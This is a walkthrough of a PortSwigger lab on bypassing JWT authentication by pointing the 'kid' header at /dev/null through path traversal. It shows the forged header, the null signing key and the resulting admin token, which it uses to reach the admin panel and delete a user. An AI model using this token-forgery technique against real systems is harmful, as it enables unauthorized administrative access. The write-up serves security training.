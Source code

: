 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/40c91ee1-7acf-4829-a698-28a92188f418)

## Overview :

- Servers may use several cryptographic keys for signing different kinds of data, not just JWTs. For this reason, the header of a JWT may contain a `kid` (Key ID) parameter, which helps the server identify which key to use when verifying the signature.
-  JWS specification **doesn't define a concrete structure for this ID** - it's just an arbitrary string of the developer's choosing. For example, they might use the **kid parameter to point to a particular entry in a database, or even the name of a file**
-   If this parameter is also vulnerable to directory traversal, an attacker could potentially force the server to use an arbitrary file from its filesystem as the verification key.

```json
{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
} 
```

-  This is especially dangerous if the server also supports JWTs signed using a **symmetric algorithm**. In this case, an attacker could potentially point the kid parameter to a predictable, static file, then sign the JWT using a secret that matches the contents of this file.

One of the simplest methods is to use `/dev/null`

> As this is an empty file, reading it returns an empty string. Therefore, signing the token with a empty string will result  in a valid signature. 

## Solution :

Login as wiener using the credentials provided.

The following requests have JWT in it.
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9f6d7682-4897-4008-9ee9-9617c92b391b)

Send the GET request sent to */admin* to repeater tab.

The JWT token used in the request is ,

```
eyJraWQiOiIwMDc4ZjEzZi05YTM5LTQ0NTgtYjRhZi03OWRkYzhmZjdlYmQiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTcyOTU0Nn0.K6mkOhz-r8aU7CNjVz8S16wa7TXvfZMJk8ctUEN7Z4c
```

Decode it using [jwt.io](https://jwt.io)

**Header -**

```json
{
  "kid": "0078f13f-9a39-4458-b4af-79ddc8ff7ebd",
  "alg": "HS256"
}
```

**Payload -**

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1695729546
}
```

Go to Jason Web Token tab. Change the `kid` to `"kid": "../../../dev/null"` & `sub` to  `"sub": "administrator"`.

Since the content of kid ie `/dev/null` is null, we need to specify the secret key to be null before signing the JWT token.

But we can specify NULL in the secret value in this extension so we need to Base64-encode the NULL value - `\x00`

The Base64 encoded value of null is - `AA==`.

Now using the JWT Editor, Create a new symmetric key (Since HMACSHA256 is used).

Generate the key & replace the secret as `AA==`.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b8255235-44cb-48b6-8853-93ac8154c240)

Click on Generate . The key is as follows,

```
{
    "kty": "oct",
    "kid": "e7758479-c636-410b-85a7-eaa566905f96",
    "k": "AA=="
}
```
**Now the file that the kid points is null & so we can now sign the token with a empty string & it is still valid !!**

We now have the following JWT.

```
eyJraWQiOiIuLi8uLi8uLi8uLi8uLi8uLi8uLi9kZXYvbnVsbCIsImFsZyI6IkhTMjU2In0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTU3Mjk1NDZ9.z7n4FC7_cH6RLq_Ra_2Z9884jrsN9ZYbMhW4KfVEi4M
```

Now replace the JWT with the one we just created & forward the request .

Now we have access to admin panel.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/067e75c2-7e8f-44f3-b5ea-e6cd673d399d)

Delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/37135f34-cdb4-4eb6-8b88-4a3666eba069)
